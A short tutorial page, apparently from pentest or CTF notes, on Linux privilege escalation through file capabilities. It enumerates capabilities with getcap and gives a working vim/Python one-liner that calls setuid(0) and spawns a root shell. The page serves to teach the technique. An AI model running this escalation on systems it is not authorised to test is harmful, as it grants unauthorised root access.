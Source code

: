 # Capabilities

System administrators can use "Capabilities" to manage privileges at a granular level for processes or binaries. For instance, if a SOC analyst needs to initiate socket connections, which a regular user cannot do, the administrator can modify the binary's capabilities instead of granting higher privileges. This allows the binary to perform its task without requiring elevated user rights.

We can use the `getcap` tool to list enabled capabilities, but it's good practice to use this command to redirect the error messages to /dev/null:

```bash
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We can see that both `vim` and `view` have the Capabilities set, but as we can see from the image below neither has the SUID bit set.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

We can lookup on [GTFObins](https://gtfobins.github.io/) for a binary that helps us to leverage privilege escalation.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Use the command with `py`, or `py3` accordingly:

{% code overflow="wrap" %}
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

And we successfully leverage our permissions!
